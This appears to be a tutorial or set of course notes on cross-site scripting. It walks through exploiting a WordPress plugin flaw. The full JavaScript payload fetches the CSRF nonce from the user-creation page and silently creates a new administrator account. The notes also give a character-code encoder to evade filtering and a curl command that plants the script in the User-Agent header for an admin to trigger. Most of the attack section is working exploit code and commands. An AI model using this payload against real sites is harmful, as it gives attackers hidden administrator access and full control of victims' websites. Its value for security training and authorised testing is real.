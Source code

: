 
XSS can be used to redirect users to malicious pages, hijack user sessions and steal users credentials (with DOM based XSS)

### Identifying XSS Vulnerabilities

1. Find input fields for testing
2. `< > ' " { } ;` - Test user input fields to see if any of the symbols come back filtered - If not there is a chance of XSS vulnerability
3. Craft payload for injection


### Executing an XSS found in WordPress Example

In this example, we have found a vulnerability in a WordPress plugin which we are going to use to create a new administrative user since the session cookie is HTTP only for the main administrator. To do this we need to retrieve the nonce in order to bypass CSRF protection. Once done, we can then craft and encode a payload to send to the server along with out captured nonce.

Step one:

Creating a JavaScript method for retrieving the nonce.

```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

Step Two:

Adding the functionality to create the new admin user:

```
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

Which leaves us with the following script:

```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

Step 3:

Compression (minifying) and encoding the payload to avoid bad character detection and filtering.

Compress the payload at: https://jscompress.com/ and save it locally.

Encode the payload as UTF-16 integer code:

```
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

With the output we can now send out crafted payload through curl.

Step 4:

Exploit with curl using `curl -i http://<URL> --user-agent "<script>eval(String.fromCharCode(OUTPUT_FROM_ENCODING))</script>"" --proxy 127.0.0.1:8080`

This will also pass the request through Burp Suite.

Step 5:

No we wait for the admin to trigger the XSS through the plugin in their admin panel. Once triggered we will be able to log in the the user we have created through the exploit.